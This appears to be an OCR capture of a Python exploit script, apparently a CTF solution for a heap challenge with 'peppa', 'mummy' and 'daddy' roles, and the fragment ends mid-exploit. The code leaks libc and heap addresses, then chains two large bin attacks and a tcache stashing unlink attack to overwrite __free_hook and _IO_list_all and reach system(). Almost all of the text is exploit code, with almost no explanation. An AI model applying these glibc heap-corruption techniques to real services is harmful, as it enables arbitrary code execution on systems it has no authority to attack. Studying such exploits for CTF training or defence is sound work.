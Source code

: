 ```python
for i in range(7):      # fill 0x130 tcache, peppa index 9~15
    add(0x160)
    delete(i + 9)
delete(8)
change_role(1)
change_role(0)
view(8)                 # get libc base address
io.recv(0x10)
libc_base = u64(io.recv(6) + b'\x00\x00') - 0x1ECBE0
system = libc_base + libc.symbols['system']
__free_hook = libc_base + libc.symbols['__free_hook']
_IO_list_all = libc_base + libc.symbols['_IO_list_all']
change_role(1)
add(0xB0)               # mummy index 6, split peppa #8

# 获取堆地址
change_role(0)
change_role(1)
view(1)
io.recv(0x10)
heap_address = u64(io.recv(6) + b'\x00\x00')        # get a heap address

print('libc base: ', hex(libc_base))
print('system: ', hex(system))
print('__free_hook: ', hex(__free_hook))
print('_IO_list_all: ', hex(_IO_list_all))
print('heap address: ', hex(heap_address))

# first large bin attack
change_role(1)
add(0x440)     # mummy index = 7
change_role(0)
add(0x430)     # peppa index = 16
add(0x430)     # peppa index = 17
add(0x430)     # peppa index = 18
add(0x430)     # peppa index = 19
change_role(1)
delete(7)
add(0x450)     # mummy index = 8, switch mummy #7 into large bin
change_role(0)
delete(17)
change_role(1)
change_role(0)
change_role(1)
edit(7, (p64(__free_hook - 0x18 - 0x18) * 2) + b'A' * (0x440 // 0x30 * 0x10 - 0x10))
change_role(2)
add(0xF0)    # daddy index = 0, complete first large bin attack

# second large bin attack
change_role(1)
change_role(0)
delete(19)
change_role(1)
edit(7, (p64(_IO_list_all - 0x20) * 2) + b'A' * (0x440 // 0x30 * 0x10 - 0x10))
change_role(2)
add(0xF0)    # daddy index = 1, complete first large bin attack

# tcache stashing unlink attack
change_role(0)
edit(8, b'0' * 0x40 + p64(heap_address + 0x410) + p64(__free_hook - 0x28) + b'\n')
change_role(2)
add(0x230)   # daddy index = 2
change_role(2)
```